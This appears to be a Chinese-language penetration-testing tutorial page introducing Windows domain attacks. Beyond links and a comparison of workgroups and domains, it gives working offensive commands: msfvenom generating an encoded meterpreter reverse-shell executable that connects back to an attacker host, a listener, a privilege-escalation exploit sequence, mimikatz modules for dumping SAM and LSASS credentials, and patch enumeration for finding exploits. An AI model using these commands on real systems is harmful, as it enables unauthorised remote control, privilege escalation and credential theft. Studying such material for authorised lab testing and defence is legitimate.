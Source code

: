 ```yaml
---
title: 域渗透入门
categories:
- WindowDomain
tags:
- WindowDomain
---
```

## 参考资料
- 乌云文章：《域内渗透基本技巧》
- [Kerberos概述及常见攻击场景](https://www.anquanke.com/post/id/200680)
- [Mimikatz 使用小技巧](https://www.secpulse.com/archives/52379.html)

## 录制的视频教程
首先搭一个域环境

- [域渗透原理篇](https://www.bilibili.com/video/BV1Cf4y1U73y/)
- [域渗透实践篇（一）](https://www.acfun.cn/v/ac14954038)

## 工作组和域的区别
1. 大小
工作组比较小，不超过20台。域用在比较大的网络，成百上千台。
2. 拓扑图
工作组中，所有机器的地位是平等的，一台计算机可以自由的加入或退出一个工作组。
3. 验证方式
在工作组中，用户名、密码存放在本地计算机。如果要登入其他计算机，必须提供用户名，密码；在域中，有一台域控（DC）服务器，其他计算机都要通过DC验证才能加入域。有域权限，可以登入任何域内计算机，无需知道计算机的账号也可以登入。
4. 网络
工作组计算机必须在同一个子网中；域的计算机可以在不同的本地网络中。

## 获得一个shell
```
生成恶意载荷
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.4 LPORT=6678 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
---
设置监听器
handler -H 192.168.1.4 -P 6678 -p windows/meterpreter/reverse_tcp
---
反弹shell成功后，进行提权
sysinfo 		#查看windows是32位/64位
migrate         #如果是64位置，需要migrate到64位进程
search suggester
use 0
set session 1
run             #查找可以利用的exp
use exploit/windows/local/always_install_elevated  #使用提权exp
set session 1
```
## meterpreter mimikatz模块
```
      crypto	- Cryptographie et certificats
        hash	- Hash
      system	- Gestion syst�me
     process	- Manipulation des processus
      thread	- Manipulation des threads
     service	- Manipulation des services
   privilege	- Manipulation des privil�ges
      handle	- Manipulation des handles
 impersonate	- Manipulation tokens d'acc�s
     winmine	- Manipulation du d�mineur
 minesweeper	- Manipulation du d�mineur 7
       nogpo	- Anti-gpo et patchs divers
     samdump	- Dump de SAM   #导出sam密码
      inject	- Injecteur de librairies
          ts	- Terminal Server
      divers	- Fonctions diverses n'ayant pas encore assez de corps pour avoir leurs propres module
    sekurlsa	- Dump des sessions courantes par providers LSASS
         efs	- Manipulations EFS
```

## 信息搜集-补丁查找
```
shell
cd C:\Windows\Temp
systeminfo > info.txt

---
pip install xlrd 
pip install xlrd -upgrade
python .\windows-exploit-suggester.py --update
python .\windows-exploit-suggester.py -d  2020-04-16-mssb.xls -i info.txt
```
